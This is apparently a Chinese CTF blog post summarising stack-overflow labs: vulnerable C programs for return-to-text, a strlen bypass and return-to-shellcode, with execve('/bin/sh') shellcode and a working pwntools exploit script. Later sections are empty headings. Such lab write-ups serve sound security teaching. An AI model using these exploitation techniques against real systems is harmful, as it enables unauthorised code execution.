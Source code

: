 ```yaml
---
title: Pwn入门(2):Stack Overflow实战小结
date: 2021-12-26 14:09:00 +0800
author: sirius
categories: [CTF]
tags: [CTF, pwn]
math: false
typora-root-url: ../../SiriusHsh.github.io
typora-copy-images-to: ../assets/img/2022
---
```


接着上一篇Pwn基础知识，这篇写一下栈溢出的实验小结，分成两个大部分：

- NTUSTISC视频中留的练习题
- CTF WIKI上的stack overflow部分题目





#  #1 NTUSTISC Lab

Lab0 的 pwntools上手题

![image-20211227225123600](/assets/img/2022/image-20211227225123600.png)

## 0x01 Return to Text 

### Lab1

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void y0u_c4n7_533_m3()
{
  execve("/bin/sh", (char *[]){0}, (char *[]){0});
}

int main()
{
  char buf[16];
  puts("This is your first bof challenge ;)");
  fflush(stdout);
  read(0, buf, 0x30);
  return 0;
}
```



![image-20211227225905877](/assets/img/2022/image-20211227225905877.png)

> 没有栈保护，代码15行读取0x30字节，buffer overflow，覆盖返回地址为y0u_c4n7_533_m3()函数地址即可。
>
> `objdump -d bof`:
>
> ![image-20211227232815402](/assets/img/2022/image-20211227232815402.png)



![image-20211227230813864](/assets/img/2022/image-20211227230813864.png)



### Lab2

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void y0u_c4n7_533_m3()
{
  int allow = 0;
  if (allow) {
    execve("/bin/sh", 0, 0);
  }
  else {
    puts("Oh no~~~!");
    exit(0);
  }
}

int main()
{
  char buf[16];
  puts("This is your second bof challenge ;)");
  fflush(stdout);
  read(0, buf, 0x30);
  if (strlen(buf) >= 16) {
    puts("Bye bye~~");
    exit(0);
  }
  return 0;
}
```


![image-20211227233212607](/assets/img/2022/image-20211227233212607.png)

> 和第一个基本一样，控制程序执行流return到`execve("/bin/sh", 0, 0);`这一行即可。
>
> 第24行的bypass：strlen判断结束为接收到'\0'位置，所以直接传`\x00`就可以bypass

![image-20211227235502065](/assets/img/2022/image-20211227235502065.png)

![image-20211228000202164](/assets/img/2022/image-20211228000202164.png){: .normal}

strlen 精准bypass，但是没必要。直接全传`\x00`不香🐴  ，都不用算长度


## 0x02 Return to Shellcode

### Lab3

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char message[48];

int main()
{
  char name[16];
  printf("Give me your message: ");
  fflush(stdout);
  read(0, message, 0x30);
  printf("Give me your name: ");
  fflush(stdout);
  read(0, name, 0x30);
  return 0;
}
```

![image-20211228211845743](/assets/img/2022/image-20211228211845743.png)

> https://siriushsh.github.io/posts/Pwn%E5%85%A5%E9%97%A81-%E5%9F%BA%E7%A1%80%E7%9F%A5%E8%AF%86/#return-to-shellcode
>
> 没有开NX，所以可以向message中写入shellcode，并且在第15行控制程序执行流跳转到message处，执行shellcode

由于没有开PIE，所以程序运行时message所在的地址是不变的，可以通过如下图方式查看验证一波：

![image-20211228214000710](/assets/img/2022/image-20211228214000710.png)

简单的利用，shellcode就如下图所示，只要把rdi, rsi, rdx设置好，rax设为0x3b，最后调用syscall

https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md ,这个网站可以查syscall table

![image-20211228221733106](/assets/img/2022/image-20211228221733106.png)

![image-20211228221721048](/assets/img/2022/image-20211228221721048.png)

![image-20211228221554081](/assets/img/2022/image-20211228221554081.png)

> ![image-20211228223709889](/assets/img/2022/image-20211228223709889.png){: .normal}
>
> 0x68732f6e69622f这个数字就是"/bin/sh"的小端序表示，放进内存后计算机读取时就是/bin/sh，这个数字可以这么获得：
>
> ![image-20211228223842892](/assets/img/2022/image-20211228223842892.png){: .normal}

![image-20211228221521394](/assets/img/2022/image-20211228221521394.png)

或者直接调用pwntools的shellcraft模块

![image-20211228222835433](/assets/img/2022/image-20211228222835433.png)

exp:

```python
from pwn import *


r = process("./ret2sc")
context(arch='amd64', os='linux')

r.recvuntil("message:")

# sc = """
# mov rbx, 0x68732f6e69622f
# push rbx
# mov rdi, rsp
# xor rsi, rsi
# xor rdx, rdx
# mov rax, 0x3b
# syscall
# """
# sc = asm(sc, arch="amd64")
r.send(asm(shellcraft.sh()))

r.recvuntil("name:")
p = "a"*0x18 + p64(0x601060)
r.send(p)

r.interactive()
```

## 0x03 GOT Hijacking

### Lab4



## 0x04 ROP base

### Lab5



## 0x05 Return to PLT

### Lab6



## 0x06 Return to libc

### Lab7







#  #2 CTF wiki

## 0x01 基本ROP

### ret2text



### ret2shellcode



## 0x02 中级ROP



## 0x03 高级ROP

